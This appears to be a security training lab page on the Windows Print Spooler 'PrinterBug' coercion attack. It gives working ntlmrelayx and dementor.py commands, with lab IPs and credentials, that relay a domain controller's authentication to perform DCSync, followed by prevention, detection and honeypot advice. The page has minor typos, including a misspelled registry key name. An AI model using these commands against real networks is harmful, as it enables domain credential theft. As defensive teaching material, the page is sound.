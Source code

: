 ## Description

The [Print Spooler](https://learn.microsoft.com/en-us/windows/win32/printdocs/print-spooler) is an old service enabled by default, even with the latest Windows Desktop and Servers versions. This became a popular attack vector because the functions [RpcRemoteFindFirstPrinterChangeNotification](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83) and [RpcRemoteFindFirstPrinterChangeNotificationEx](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) can be abused to force a remote machine to perform a connection to any other machine it can reach.
The impact of PrinterBug is that any DC that has the Print Spooler enabled can be compromised in one of the following ways:
1. Relay the connection to another DC and perform DCSync (if SMB Signing is disabled).
2. Force the DC to connect to a machine configured for Unconstrained Delegation, which will cache the TGT and can be captured with tools like Rubeus and Mimikatz.
3. Relay the connection to Active Directory Certificate Services to obtain a certificate for the DC.
4. Relay the connection to configure Resource-based Kerberos Delegation for the relayed machine.

## Attack

Here, we will relay the connection to another DC and perform DCSync.
To begin, we will configure NTLMRelayx to forward any connections to DC2 and attempt to perform the DCSync attack (on kali).
```bash
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```

Next, we need to trigger the PrinterBug, using [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) with Bob (assuming it has been compromised already).
```bash
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

Switching back to the NTLMRelayx terminal session, we will see that it was successful.

## Prevention

Print Spooler should be disabled on all servers that are not printing servers.
Additionally, there is an option to prevent this abuse while keeping the service running: when disabling the registry key _RegisterSploolerRemoteRpcEndPoint_, any incoming remote requests get blocked.

## Detection

The traces of the network connections toward the DC are too generic to be used as a detection mechanism.
In the case of using NTLMRelayx, no event ID 4662 is generated; however, to obtain the hashes as DC1 from DC2, there will be a successful logon event for DC1, originated from the kali's IP address.
A suitable detection mechanism always correlates all logon attempts from core infrastructure servers to their respective IP addresses which should be static and known.

## Honeypot

It is possible to use that as means of alerting on suspicious behavior, by outbounding connections from our servers to ports 139 and 445. The firewall rules will disallow the reverse connection to reach the threat agent.
While this may seem suitable, the bug requires the machine to connect back to us, but if a but is discovered which allows for some type of RCE without the reverse connection, then this will backfire on us.

